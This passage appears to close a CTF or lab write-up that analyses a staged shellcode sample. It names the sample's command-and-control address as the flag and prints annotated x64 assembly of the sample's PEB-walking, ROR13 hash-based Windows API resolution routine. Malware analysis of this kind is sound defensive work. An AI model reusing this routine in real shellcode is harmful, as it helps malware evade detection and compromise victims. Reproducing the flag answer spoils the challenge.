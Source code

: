 The shellcode attempts to connect to **81.91.19.18:443**, which represents the command and control server for this staged payload.

**Flag: `81.91.19.18:443`**

---

## Appendix: Hash-Based API Resolution Analysis

One of the most interesting aspects of this shellcode is its  API resolution mechanism. Instead of importing functions directly, it dynamically resolves Windows API functions using a custom hashing algorithm. This technique is commonly employed by malware to evade static analysis.

### The API Resolution Routine

Here's the complete API resolution routine with detailed comments:

```assembly
; Entry point - save registers and initialize
push    r9
push    r8
push    rdx
push    rcx
push    rsi
xor     rdx, rdx
mov     rdx, gs:[rdx+60h]        ; Access Process Environment Block (PEB)
mov     rdx, [rdx+18h]           ; Access PEB_LDR_DATA.LoaderData
mov     rdx, [rdx+20h]           ; Access InMemoryOrderModuleList.Flink

; Main DLL enumeration loop
loc_21:
movzx   rcx, word ptr [rdx+4Ah]  ; Read BaseDllName.MaximumLength from LDR_DATA_TABLE_ENTRY
mov     rsi, [rdx+50h]           ; Read BaseDllName.Buffer pointer
xor     r9, r9                   ; Initialize hash accumulator

; DLL name hashing loop
loc_2D:
xor     rax, rax                 ; Clear RAX
lodsb                            ; Load next character from DLL name, increment RSI
cmp     al, 61h                  ; Compare with 'a' (0x61)
jl      short loc_37             ; If less than 'a', skip uppercase conversion
sub     al, 20h                  ; Convert lowercase to uppercase (subtract 0x20)

loc_37:
ror     r9d, 0Dh                 ; Rotate hash right by 13 bits
add     r9d, eax                 ; Add character to hash
loop    loc_2D                   ; Continue until RCX (string length) reaches 0

; Process DLL's export table
push    rdx                      ; Save current LDR_DATA_TABLE_ENTRY pointer
mov     rdx, [rdx+20h]           ; Access DllBase from LDR_DATA_TABLE_ENTRY
push    r9                       ; Save DLL name hash
mov     eax, [rdx+3Ch]           ; Read IMAGE_DOS_HEADER.e_lfanew
add     rax, rdx                 ; Calculate NT headers address
cmp     word ptr [rax+18h], 20Bh ; Check IMAGE_OPTIONAL_HEADER64.Magic (0x020B)
jnz     loc_CB                   ; Skip if not 64-bit PE
mov     eax, [rax+88h]           ; Read DataDirectory[0].VirtualAddress (export table RVA)
test    rax, rax
jz      short loc_CB             ; Skip if no export table
add     rax, rdx                 ; Calculate export table virtual address
mov     r8d, [rax+20h]           ; Read IMAGE_EXPORT_DIRECTORY.AddressOfNames
mov     ecx, [rax+18h]           ; Read IMAGE_EXPORT_DIRECTORY.NumberOfNames
add     r8, rdx                  ; Calculate AddressOfNames virtual address
push    rax                      ; Save export directory pointer

```